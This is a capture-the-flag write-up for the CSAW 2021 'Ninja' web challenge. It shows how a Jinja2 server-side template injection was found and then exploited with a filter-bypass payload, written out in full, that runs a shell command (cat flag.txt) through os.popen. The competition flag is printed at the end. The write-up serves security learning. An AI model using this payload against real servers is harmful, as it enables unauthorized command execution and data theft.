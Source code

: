 ```yaml
---
title: "Ninja"
subtitle: "CSAW 2021 CTF"
author: GoProSlowYo
date: "2021-09-10"
subject: "Ninja Writeup"
keywords: \[CSAW21, CSAW, CTF, InfoSec\]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "0c0d0e"
titlepage-rule-color: "8ac53e"
titlepage-rule-height: 0
logo: "./logo.png"
logo-width: 3in
toc: true
toc-own-page: true
---
```


# Ninja

Writeup by: [GoProSlowYo](https://github.com/GoProSlowYo)

Team: [OnlyFeet](https://ctftime.org/team/144644)

Writeup URL: [GitHub](https://infosecstreams.github.io/csaw21/ninja/)

----

```text
Hey guys come checkout this website i made to test my ninja-coding skills.

http://web.chal.csaw.io:5000
```

## Initial Research

There's an input box and after a few seconds of playing with input we find that we have Server `Side Template Injection (SSTI)`.

We entered:

```jinja2
{{7*'5ev3n!+'}}
```

![Server-Side Template Injection](./ssti.png)\

## Finding the Right SSTI Payload

There's some filters on the server-side that seem to be filtering some of the payload so we need to bypass it with some special techniques.

You can find great examples and help at the [Filter Bypass section of the PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---filter-bypass):

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fim'+'port\x5f\x5f')('o'+'s')|attr('popen')('cat flag.txt')|attr('read')()}}
```

We should URL encode that and then send it off. In this example I used [Zeds Attack Proxy](https://www.zaproxy.org/).

![Exploiting Server-Side Template Injection using Zed Attack Proxy and Getting the Flag](./expoit.png)\

## Victory

Submit the flag and claim the points:

**flag{m0mmy_s33_1m_4_r34l_n1nj4}**
